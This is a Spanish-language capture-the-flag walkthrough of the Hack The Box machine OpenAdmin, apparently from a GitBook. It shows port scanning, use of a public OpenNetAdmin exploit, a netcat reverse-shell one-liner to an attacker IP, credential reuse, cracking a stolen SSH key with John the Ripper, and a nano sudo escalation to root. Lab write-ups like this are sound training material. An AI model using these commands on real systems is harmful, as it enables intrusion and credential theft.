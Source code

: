 ```yaml
---
description: '✍️ Autor: MrR3boot 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/04/2020'
---
```


# OpenAdmin

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.171
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1309).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.171
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1310).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH):** El puerto 22 está abierto y ejecutando OpenSSH 7.6p1 en un sistema Ubuntu Linux. Se han detectado las claves del host en los algoritmos RSA, ECDSA y ED25519, lo que indica que el sistema permite conexiones seguras mediante SSH.
* **Puerto 80 (HTTP):** El puerto 80 está abierto y ejecutando un servidor web Apache 2.4.29 en Ubuntu. La página detectada es la predeterminada de Apache en Ubuntu, lo que sugiere que el servidor web podría estar recién configurado o sin contenido adicional.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.10.171
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1311).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1312).png" alt=""><figcaption></figcaption></figure>

No vemos nada así a primera vista ni tampoco en el código fuente por lo que vamos a escanear directorios.

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.171/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1313).png" alt=""><figcaption></figcaption></figure>

Entramos en el directorio `/music`.

<figure><img src="../../.gitbook/assets/image (1314).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un panel de Login.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-23 160359.png" alt=""><figcaption></figcaption></figure>

Parece un controlador de dominios por lo que lo añado.

```
echo "10.10.10.171 openadmin.htb" >> /etc/hosts
```

Vemos que se nos muestra una versión por lo que miramos si hay alguna versión.

```
searchsploit opennetadmin
```

<figure><img src="../../.gitbook/assets/image (1315).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```bash
searchsploit -m php/webapps/47691.sh
```

<figure><img src="../../.gitbook/assets/image (1316).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

```bash
./47691.sh http://10.10.10.171/ona/
```

<figure><img src="../../.gitbook/assets/image (1317).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Nos mandamos una Reverse Shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.43 443 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1318).png" alt=""><figcaption></figcaption></figure>

En la ruta `/opt/ona/www/local/config`.

<figure><img src="../../.gitbook/assets/image (1319).png" alt=""><figcaption></figcaption></figure>

Encontramos unas credenciales. Es habitual que los usuarios reutilicen contraseñas así que nos logueamos con esas.

```bash
ssh jimmy@10.10.10.171
```

<figure><img src="../../.gitbook/assets/image (1320).png" alt=""><figcaption></figcaption></figure>

En la ruta `/var/www/internal` encontramos archivos interesantes.

<figure><img src="../../.gitbook/assets/image (1321).png" alt=""><figcaption></figcaption></figure>

Vemos que interactúa con el **main.php**.

<figure><img src="../../.gitbook/assets/image (1322).png" alt=""><figcaption></figcaption></figure>

Parece que el archivo `main.php` está ejecutando un comando del sistema, y cada vez que se ejecuta, muestra la clave privada (`id_rsa`) de Joanna (otro usuario).

El archivo no era accesible desde el exterior, lo que indica que probablemente esté alojado de forma interna. Por ello, decidí revisar los puertos que estaban en escucha.

```bash
netstat -l
```

<figure><img src="../../.gitbook/assets/image (1323).png" alt=""><figcaption></figcaption></figure>

```bash
curl http://127.0.0.1:52846/main.php
```

<figure><img src="../../.gitbook/assets/image (1324).png" alt=""><figcaption></figcaption></figure>

Nos lo copiamos y le damos permisos.

```
chmod 600 id_rsa
```

Usamos John The Ripper para sacar la contraseña de la clave cifrada.

```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (1325).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con Joana.

```bash
ssh -i id_rsa joanna@10.10.10.171
```

<figure><img src="../../.gitbook/assets/image (1326).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (1327).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/nano/" %}

```bash
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/image (1328).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1329).png" alt=""><figcaption></figcaption></figure>
